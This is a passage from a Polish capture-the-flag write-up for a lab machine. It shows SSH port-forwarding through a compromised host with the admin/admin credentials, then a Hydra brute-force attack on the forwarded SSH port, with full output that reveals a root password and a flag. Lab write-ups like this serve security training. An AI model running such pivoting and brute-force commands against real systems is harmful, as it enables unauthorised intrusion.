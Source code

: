 **SSH** - łamanie czymkolwiek przez *portfwd* to masakra, nie wiem czym to jest spowodowane, więc od razu wejdźmy na **Shella**.
{: .text-justify}
```console
root@kali:/home/szikers/myhouse7-1# ssh 127.0.0.1 -p 24
FLAG: "{{tryharder:308}}"
root@127.0.0.1's password:
Welcome to Ubuntu 18.04.1 LTS (GNU/Linux 4.15.0-38-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Wed Sep  1 19:16:43 2021 from 172.31.20.1
root@3325411fbe96:~#
root@3325411fbe96:~#
root@3325411fbe96:~# ls
flag.txt
```
Ciekawostka jest taka, że nie zawsze mogłem się dobrze połączyć na **Mysql** (o tym później) przez _portfwd_ **Metasploit**a. Za to bez problemu poszło połączenie przez **SSH** na serwer. Jednak tym sposobem trzeba znać login i hasło. Autor wszystkim to ułatwił: **admin**/**admin**. Pokaże jak to działa. Na jednej konsoli nawiązujemy połączenie:
{: .text-justify}
```bash
# ssh -N -L 24:172.31.20.194:24 admin@172.16.1.167
```
a na drugiej łamiemy:
{: .text-justify}
```bash
# root@kali:/home/szikers/myhouse7-1# hydra -P password.txt -L users.txt 127.0.0.1 -s 24 ssh -vv
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-09-01 22:00:24
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 24 login tries (l:6/p:4), ~2 tries per task
[DATA] attacking ssh://127.0.0.1:24/
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[INFO] Testing if password authentication is supported by ssh://admin@127.0.0.1:24
[INFO] Successful, password authentication is supported by ssh://127.0.0.1:24
[ERROR] could not connect to target port 24: Socket error: disconnected
[ERROR] ssh protocol error
[ERROR] could not connect to target port 24: Socket error: disconnected
[ERROR] could not connect to target port 24: Socket error: disconnected
[ERROR] ssh protocol error
[ERROR] ssh protocol error
[ERROR] could not connect to target port 24: Socket error: disconnected
[ERROR] ssh protocol error
[ERROR] could not connect to target port 24: Socket error: disconnected
[ERROR] ssh protocol error
[ERROR] could not connect to target port 24: Socket error: disconnected
[ERROR] ssh protocol error
[ERROR] could not connect to target port 24: Socket error: disconnected
[ERROR] ssh protocol error
[24][ssh] host: 127.0.0.1   login: root   password: anchor
[ERROR] could not connect to target port 24: Socket error: disconnected
```